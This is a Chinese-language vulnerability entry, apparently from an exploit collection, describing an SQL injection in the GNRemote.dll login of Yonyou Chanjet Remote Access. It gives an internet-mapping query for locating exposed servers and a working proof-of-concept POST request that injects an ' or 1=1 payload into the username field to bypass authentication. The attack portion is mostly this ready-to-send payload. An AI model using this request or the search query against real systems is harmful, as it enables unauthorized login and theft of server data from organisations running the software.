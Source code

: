 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

<a-checkbox checked>用友 畅捷通远程通</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="远程通CHANJET_Remote" </a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1664803780708-4fd98949-6c9a-4dca-9c06-9ff70231516f.png)

验证POC

```sql
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![img](../../../.vuepress/public/img/1664803838437-475c0c08-3cf2-482d-afbd-2c703ef58475.png)![img](../../../.vuepress/public/img/1664803846559-8bf28c7c-a65a-4aca-8188-839f57a401d3.png)